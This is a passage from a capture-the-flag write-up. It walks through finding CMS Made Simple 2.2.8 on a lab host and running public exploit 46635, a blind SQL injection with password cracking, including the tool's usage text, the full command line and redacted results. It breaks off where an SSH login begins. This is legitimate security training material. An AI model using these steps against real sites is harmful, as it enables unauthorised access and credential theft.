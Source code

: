 dirb found a Simple CMS on `/simple` path. Let's investigate it using Firefox.
**The CMS footer is:**

> Copyright 2004 - 2021 - CMS Made Simple
> This site is powered by CMS Made Simple version 2.2.8

Quick search in [exploit-db](https://www.exploit-db.com/exploits/46635) reveals the CMS version is **vulnerable to SQLi** (You may also use `searchsploit simple 2.2.8` to find that exploit).
We'll download the Python file and run it with `-h` flag to see what arguments we need to provide the script (same can be done if you know your way with Python code but I assume no prior knowledge).
In case you encounter any errors regarding missing packages, use `pip` to install it. Here's a quick [intro to pip](https://docs.python.org/3/installing/index.html#basic-usage)

```console
$ python 46635.py -h
Usage: xpl.py [options]

Options:
  -h, --help            show this help message and exit
  -u URL, --url=URL     Base target uri (ex. http://10.10.10.100/cms)
  -w WORDLIST, --wordlist=WORDLIST
                        Wordlist for crack admin password
  -c, --crack           Crack password with wordlist
```

OK, so our flags are:
* `--url http://simple.ctf/simple`
* `--crack`
* `--wordlist /usr/share/seclists/Passwords/Common-Credentials/best110.txt` 

Keep in mind Seclists in not pre-installed in Kali and can be downloaded using `sudo apt install seclists`

This means the complete command is:
`python 46635.py --url http://simple.ctf/simple --crack --wordlist /usr/share/seclists/Passwords/Common-Credentials/best110.txt`. 

The script will run on a dictionary of character, trying to find the right one in each place by injecting a special payload. The final output consists of the salt, username, email, hashed password and clear text password:
```console
[+] Salt for password found: [REDACTED]
[+] Username found: [REDACTED]
[+] Email found: [REDACTED]
[+] Password found: [REDACTED]
[+] Password cracked: [REDACTED]
```


# Gaining Access
## SSH
Now that we have `username:password` combination we can use it to login to SSH (remember the FTP note? it stated **the combination is the same**):
